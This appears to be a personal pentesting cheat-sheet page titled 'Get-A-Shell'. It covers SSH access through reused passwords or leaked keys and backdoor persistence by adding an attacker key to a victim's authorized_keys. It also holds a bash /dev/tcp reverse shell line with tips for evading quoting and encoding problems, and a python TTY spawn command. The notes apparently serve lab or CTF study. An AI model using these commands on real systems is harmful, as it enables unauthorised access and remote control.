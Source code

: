 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

```bash
# On the victim machine

$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  

# Generating public/private rsa key pair.
Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
Enter passphrase (empty for no passphrase): 						  # no password 
Enter same passphrase again: 								          # no password 


$ cat TmpKey.pub | xclip -selection c                                 # copy the public key

```

```bash
# Back on the victim machine

$ echo "`CTRL+V`" >> authorized_keys
```

```bash
# Back on the attacker machine

ssh -i TmpKey Username@Host
```




### BruteForce Attack

not recommended ^^ :soon:



## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. ```bash bash -i >& /dev/tcp/10.10.x.x/1234 0>&1``` , try precede it with `bash -c` 

* try URL encoding / double URL encoding

* quotations conflict, how to deal with it ?? 

    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'